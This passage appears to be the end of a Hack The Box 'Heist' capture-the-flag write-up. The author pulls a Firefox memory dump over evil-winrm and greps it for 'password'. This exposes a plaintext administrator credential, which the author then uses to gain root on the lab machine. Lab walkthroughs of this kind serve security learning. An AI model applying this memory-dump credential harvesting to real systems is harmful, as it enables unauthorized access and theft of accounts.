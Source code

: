 ```bash
Info: Downloading C:\Users\Chase\Documents\firefox.exe_200425_121800.dmp to firefox.exe_200425_121800.dmp
```

While running that in background, I did `strings` on that to find any password available.
```bash
root@w0lf:~/hacking-tools/evil-winrm# strings firefox.exe_200425_121800.dmp | grep password
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
It looks like admin password so try login with them.

`administrator : 4dD!5}x/re8]FBuZ`<br/>
![cd9776083dc7761c1590362976cb6840.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-heist/af015a897a024595810aa1d045756661.png)<br/>
We own the Root!!

















